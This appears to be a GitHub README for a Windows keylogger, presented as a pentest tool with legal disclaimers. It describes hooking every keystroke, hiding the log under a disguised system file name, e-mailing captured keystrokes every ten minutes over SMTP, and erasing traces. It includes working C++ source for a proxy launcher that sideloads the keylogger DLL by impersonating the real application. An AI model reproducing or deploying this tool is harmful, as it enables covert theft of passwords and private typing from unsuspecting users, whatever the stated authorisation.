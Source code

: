 ````markdown
# 🖥️ Windows Keylogger (DLL + Proxy EXE)

A C++ keylogger designed for controlled, authorized penetration tests. It injects a low-level keyboard hook, writes keystrokes to a hidden log, periodically e-mails the encrypted log via libcurl’s SMTP API, then securely erases it.

---

## ✨ Features

1. **Low-Level Keyboard Hook**  
   Installs in its own thread via `WH_KEYBOARD_LL`, capturing every keypress.

2. **Robust File Location**  
   Writes to `%APPDATA%\Microsoft\Windows\Logs\syslog.dat`. Automatically creates the folder if missing.

3. **Unicode-Aware Mapping**  
   Uses `GetKeyboardState` + `ToUnicode` to respect Shift, CapsLock, and non-ASCII characters.

4. **Timed, Secure E-Mail**  
   Every 10 minutes, reads the log and sends it via **libcurl**’s SMTP over SSL/TLS—no WinINet juggling.

5. **Thread Safety & Retry Logic**  
   A dedicated timer thread retries up to 3 times per interval on failure.

6. **Secure Erasure**  
   Truncates the log file after a successful send, keeping no residues on disk.

7. **Minimal Dependencies**  
   - Standard Win32 API  
   - libcurl (statically or dynamically linked)

---

## 🛠️ Prerequisites

- Windows (Win32 or Win64)  
- C++17-compatible compiler (MSVC, clang-cl, etc.)  
- Link against:
  - `user32.lib`
  - `kernel32.lib`
  - `advapi32.lib`
  - `libcurl` (if static: define `CURL_STATICLIB`)

- A valid CA bundle (e.g. `curl-ca-bundle.crt`) alongside your DLL/executable.  
- **Gmail App Password** or equivalent for SMTP authentication.

---

## ⚙️ Building the Logger DLL

1. Clone the repository and open the project in Visual Studio (or your build system).  
2. Add `logger.cpp` to your solution.  
3. Configure:
   - Character Set → **Unicode**  
   - Language Standard → **/std:c++17**  
   - Linker → Additional Dependencies:  
     `user32.lib; kernel32.lib; advapi32.lib; libcurl.lib;`  
4. Build as a **DLL** (e.g. `logger.dll`).

---

## 📦 Wrapping in a Proxy EXE

To load the DLL into your target process, build a tiny launcher (“proxy”) that:

1. **Rename** your real application:  
   ```text
   TestApp.exe → TestAppCore.exe
````

2. **Create** a new Win32 project named **TestApp.exe** (the proxy).

3. **Implement** `proxy.cpp`:

   ```cpp
   #include <windows.h>
   #include <string>

   int WINAPI WinMain(HINSTANCE, HINSTANCE, LPSTR, int) {
       WCHAR path[MAX_PATH];
       GetModuleFileNameW(nullptr, path, MAX_PATH);

       // 1) Load logger.dll
       std::wstring dll(path);
       dll.replace(dll.rfind(L".exe"), 4, L".dll");
       LoadLibraryW(dll.c_str());

       // 2) Launch real app (TestAppCore.exe)
       std::wstring exe(path);
       exe.replace(exe.rfind(L"TestApp.exe"), 12, L"TestAppCore.exe");

       STARTUPINFOW si{ sizeof(si) };
       PROCESS_INFORMATION pi{};
       CreateProcessW(nullptr, exe.data(), nullptr, nullptr,
                      FALSE, 0, nullptr, nullptr, &si, &pi);

       WaitForSingleObject(pi.hProcess, INFINITE);
       FreeLibrary(nullptr);
       CloseHandle(pi.hThread);
       CloseHandle(pi.hProcess);
       return 0;
   }
   ```

4. **Project Settings**:

   * **Subsystem**: Windows (no console)
   * **Character Set**: Unicode
   * Link against: `kernel32.lib; user32.lib;`

5. **Deploy** all three files together:

   ```
   ├── TestApp.exe        ← Proxy launcher  
   ├── TestAppCore.exe    ← Original application  
   └── logger.dll         ← Keylogger DLL  
   ```

Double-click **TestApp.exe**. The proxy loads `logger.dll`, installs the hook, then runs the real app as usual.

---

## 🔒 Controlled Environment Notes

* **Lab Use Only**: Authorized pentest in an isolated network.
* **No AV Evasion**: For educational/demo use—anti-forensics is out of scope.
* **Credentials**: Store SMTP credentials securely (e.g. encrypted resource).
* **CA Bundle**: Ensure `curl-ca-bundle.crt` is present for SSL verification.

---

## 🚀 Usage

1. Launch `TestApp.exe`.
2. Let it run—every 10 minutes you’ll receive an e-mail with the captured keystrokes.
3. Inspect the hidden log at `%APPDATA%\Microsoft\Windows\Logs\syslog.dat`.
4. When done, terminate the process; the DLL unhooks cleanly on exit.

---

## ⚖️ Legal & Ethical

This tool is intended **solely** for:

* **Authorized** penetration tests
* **Controlled** lab environments
* **Educational** demonstrations

Unauthorized deployment against end-users or production systems is illegal and unethical.

---

> “With great power comes great responsibility.”
> — Remember your ethical obligations when testing.

```
```
